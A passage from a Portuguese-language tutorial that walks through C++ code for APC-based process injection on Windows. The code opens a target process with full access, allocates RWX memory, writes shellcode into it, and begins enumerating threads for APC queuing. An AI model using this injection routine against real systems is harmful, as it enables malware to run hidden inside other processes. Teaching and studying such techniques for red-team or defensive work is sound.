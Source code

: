 Assumindo que o processo existe, vamos definir algumas variáveis que serão utilizadas ao longo do código e faremos uso da API [OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) repassando os valores `PROCESS_ALL_ACCESS`, que nos dá permissão total, e o PID do processo, que está em `procEntry.th32ProcessID`. Teremos como retorno um handle.

```cpp
    HANDLE hProcess = NULL;
    SIZE_T lpNumberOfBytesWritten;

    // Opening process pointed by procEntry.th32ProcessID
    std::wcout << "[+] Opening chosen process..." << std::endl;
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, procEntry.th32ProcessID);
    if (hProcess == INVALID_HANDLE_VALUE) {
        std::wcout << "[-] Error opening process " << procEntry.th32ProcessID << std::endl;
        return 1;
    }
```

A seguir, alocaremos uma região de memória RWX no processo remoto com [VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex), repassando o handle adquirido, definindo o tamanho a ser alocado como o tamanho do shellcode, a soma das flags `MEM_RESERVE` e `MEM_COMMIT` como tipo de alocação e `PAGE_EXECUTE_READWRITE` como tipo de proteção das páginas de memória (RWX).

```cpp
    // Allocating memory in remote process
    std::wcout << "[+] Allocating " << sizeof(shellcode) << " bytes in remote process.." << std::endl;
    LPVOID allocatedMem = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (!allocatedMem) {
        std::wcout << "[-] Error in allocating memory" << std::endl;
        return 1;
    }
```

Caso a alocação tenha sucesso, iremos escrever nosso shellcode no processo remoto com [WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory).

```cpp
    // Writing shellcode to allocated memory
    std::wcout << "[+] Writing shellcode at 0x" << std::hex << allocatedMem << std::endl;
    BOOL status = WriteProcessMemory(hProcess, allocatedMem, shellcode, sizeof(shellcode), &lpNumberOfBytesWritten);
    if (!status) {
        std::wcout << "[-] Error in writing shellcode" << std::endl;
        return 1;
    }
```

Com o shellcode já injetado, teremos que enfileirá-lo em uma APC em uma thread que fique em um estado *alertable*. Para enumerarmos as threads de todos os processos no sistema, utilizaremos novamente a API `CreateToolHelp32Snapshot` passando a constante `TH32CS_SNAPTHREAD` como primeiro argumento.
